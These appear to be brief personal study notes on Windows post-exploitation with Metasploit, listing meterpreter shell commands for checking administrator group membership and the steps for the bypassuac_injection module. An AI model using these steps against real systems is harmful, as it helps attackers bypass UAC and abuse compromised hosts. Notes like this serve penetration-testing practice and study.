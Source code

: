# How to see wheather the gained user access is a part of administrative group
- meterpreter>shell
- >net users
- >net localgroup administrator


## bypassing uac
>search bypassuac_injection
- exploit/windows/local/bypassuac_injection
>set payload to x64 arch
>set target to windows\ x64 arch
### this will not elevate the privilage ..it will only disable the UAC 
